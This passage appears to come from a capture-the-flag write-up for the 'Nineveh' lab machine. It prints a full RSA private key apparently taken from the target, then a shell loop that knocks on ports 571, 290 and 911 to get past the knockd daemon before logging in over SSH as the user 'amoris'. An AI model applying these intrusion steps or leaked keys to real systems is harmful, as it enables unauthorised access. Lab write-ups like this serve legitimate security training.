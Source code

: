 ```txt
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
```

A daemon named *knockd* prohibiting the direct use of the ssh private key. In order to bypass this, we must "knock" on ports in a particular order. From the config file, we can see that we need to, in order, knock on ports 571, 290, and 911 to use the openssh service.

This script allows us to bypass the port knocking daemon, and access the Nineveh machine as *amoris* through the user's private key.

```txt
for i in 571 290 911; do
nmap -Pn --host-timeout 100 --max-retries 0 -p $i 10.10.10.43 >/dev/null
done; ssh -i amoris.id_rsa amrois@10.10.10.43
```

We gain access to the *amoris* user.
